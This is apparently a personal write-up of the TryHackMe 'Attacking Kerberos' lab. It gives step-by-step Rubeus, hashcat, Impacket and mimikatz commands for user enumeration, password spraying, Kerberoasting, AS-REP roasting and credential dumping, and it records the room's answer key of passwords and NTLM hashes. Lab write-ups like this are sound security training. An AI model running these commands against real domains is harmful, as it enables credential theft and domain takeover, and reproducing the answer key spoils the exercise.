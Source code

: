 <- [[02 Writeup Index]]
<- [[Kerberos]]
# Attacking Kerberos
Link: https://tryhackme.com/room/attackingkerberos

**Covers**
- Basics of Attacking #Kerberos
- Enumeration w/ [[kerbrute]] and [[Rubeus]]
- [[Kerberos#Kerberoasting|Kerberoasting]]
- [[Kerberos#AS-REP Roasting|AS-REP Roasting with Rubeus and #Impacket]]
- [[Kerberos#Golden Ticket Silver Ticket|Golden/Silver Ticket Attacks]]
- [[Kerberos#Pass-the-Ticket|Pass-the-Ticket]]
- [[Kerberos#Skeleton Keys Backdoors|Skeleton key attacks using mimikatz]]


## Tasks
### Task 2 - Enumeration w/ Kerbrute
Conduct some basic recon on the target to discover relevant information:
`nmap -A 10.10.173.126`
![[attacking-kerberos-nmap-service&os-scan.png]]

Add Target IP and Domain Name to `/etc/hosts`:
![[kerbrute-add-hosts-entry.png]]

Enumerate users from word list using [[kerbrute]]:
![[attacking-kerberos-kerbrute-enumuser.png]]

#### Task 2 Questions
```
How many total users do we enumerate?
	10
What is the SQL service account name?
	sqlservice
What is the second "machine" account name?
	machine2
What is the third "user" account name?
	user3
```

### Task 3 - Harvesting & Brute-Forcing Tickets w/ Rubeus
[[Rubeus]] is a toolset for raw interactions and abuse of Kerberos. 
For this box its already installed on the target machine so no installation or configuration is necessary. 

First, SSH (or RDP) into the target machine `Administrator::P@$$W0rd`

#### Harvesting Tickets
1. Navigate to `Downloads` where Rubeus is
2. Tell Rubeus to harvest TGTs for 30 seconds
	1. `Rubeus.exe harvest /interval:30` ![[Rubeus-harvest-tickets-interval-30sec.png]]
		1. **NOTE** this will run indefinitely until you terminate, for the box you don't need to run it that long. 

Scrolling through the output we see that we've captured tickets from two accounts:
- `Administrator`, a domain admin ![[Attacking-Kerberos-Rubeus-Harvest-Ticket-Domain-Admin.png]]

- `CONTROLLER-1`, a domain controller ![[Attacking-Kerberos-Rubeus-Harvest-Ticket-Domain-Controller.png]]


#### Brute-Forcing / Password-Spraying w/ Rubeus
The box only asks you to password-spray the DC, rather than brute force a particular user. 

First, they recommend adding the IP and domain name of the DC to the Windows host file with:
`echo 10.10.173.126 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

*Technically* this is not necessary here, as Rubeus allows us to pass the IP of the DC in the command with `/dc:<IP_OF_DC>`

To spray **after** adding DC to hosts file:
`Rubeus.exe /password:Password1 /noticket`

To spray **w/o** adding DC to hosts file:
`Rubeus.exe /password:Password1 /dc:10.10.173.126 /noticket`

Spraying results in the following results and **.kirbi** ticket:

![[Rubeus-password-spray-example.png]]

#### Task 3 Questions
Both questions are answered from [[THM - Attacking Kerberos#Harvesting Tickets|Harvesting Tickets]]
```
Which domain admin do we get a ticket for when harvesting tickets?
	Administrator
Which domain controller do we get a ticket for when harvesting tickets?
	CONTROLLER-1
```

### Task 4 - Kerberoasting w/ Rubeus & Impacket
The largest difference between the two approaches, Rubeus and Impacket's GetUserSPNs.py, is that the latter can be done remotely while Rubeus requires execution on the target machine.

#### Rubeus Kerberoasting
See [[Rubeus#Kerberoasting]]
I recommend using `/nowrap` to make copying the hash easier. 

#### Impacket GetUserSPNs.py Kerberoasting
See [[GetUserSPNs.py#Example Usage]]

#### Cracking the Hash
With the hash saved to your local machine, you can crack it with hashcat (Pass.txt is provided in the tutorial):
`hashcat -m 13100 -a 0 hash.txt Pass.txt`

Once cracked use `--show` to show the cracked password. 

**HTTPService**
*Pass*: `Summer2020`
![[Attacking-Kerberos-Kerberoasting-cracked-hash-httpservice.png]]

**SQLService**
*Pass*: `MYPassword123`
![[Attacking-Kerberos-Kerberoasting-cracked-hash-sqlservice.png]]

#### Task 4 Questions
Questions answered after cracking hashes
```
What is the HTTPService Password?
	Summer2020
What is the SQLService Password?
	MYPassword123
```

### Task 5 - AS-REP Roasting w/ Rubeus
Very similar process to Task 4, retrieve the hashes and crack them. 

We'll only be using [[Rubeus]] this time.

#### Dumping KRBASREP5 Hashes w/ Rubeus
See [[Rubeus#AS-REP Roasting]]

Run `Rubeus.exe asreproast` which automatically scan for AS-REP Roastable users and attempt to grab the hashes.

![[Rubeus-AS-REP-Roasting-example.png]]

#### Crack the Hashes w/ hashcat
**IMPORTANT** Add `$23` after `$krb5asrep` and before the user in the hash for it to work with hashcat. 

Crack the hashes with (`Pass.txt` is the same provided wordlist from Task 4):
`hashcat -m 18200 -a 0 hash.txt Pass.txt`

![[Attacking-Kerberos-AS-REP-Roasting-cracked-hashes.png]]

#### Task 5 Questions
All questions can be answered after cracking hashes, EXCEPT Question 1, which requires looking up the hash type on the hastcat wiki (https://hashcat.net)
```
What has type does AS-REP Roasting use?
	Kerberos 5 AS-REP etype 23
Which User is vulenerable to AS-REP Roasting?
	User3
What is the User's Password?
	Password3
Which Admin is vulnerable to AS-REP Roasting?
	Admin2
What is the Admin's Password?
	P@$$W0rd2
```

### Task 6 - Pass the Ticket w/ mimikatz
There are no questions to answer here, but its good practice nonetheless. 

![[Mimikatz#Pass-the-Ticket]]

### Task 7 - Golden/Silver Ticket Attacks w/ mimikatz
This box only requires dumping the hashes and SIDs for accounts and not actually creating Golden/Silver Tickets, but check [[Mimikatz#Golden Silver Ticket Attacks]] for step by step on how. 

1. Make sure you're in `Downloads` so you can run `mimikatz`
2. Once running, run `privilege::debug` and check that your output is `Privilege '20' OK`, i.e. you have necessary privs.
4. Next run `lsadump::lsa /inject /name:SQLService` to dump the hash and SID of the SQLService account ![[Attacking-Kerberos-mimikatz-dump-SQLService-ticket.png]]
5. Next run `lsadump::lsa /inject /name:Administrator` to dump the hash and SID of the Administrator account ![[Attacking-Kerberos-mimikatz-dump-Administrator-ticket.png]]

#### Task 7 Questions
All questions can be answered after dumping the hashes/SIDs for the referenced accounts
```
What is the SQLService NTLM Hash?
	cd40c9ed96265531b21fc5b1dafcfb0a
What is the Administrator NTLM Hash?
	2777b7fec870e04dda00cd7260f7bee6
```

### Task 8 & 9
Have no questions to be answered, but Task 8 covers Backdoors w/ mimikatz via Skeleton keys. See [[Mimikatz#Backdoors and Skeleton Keys]]

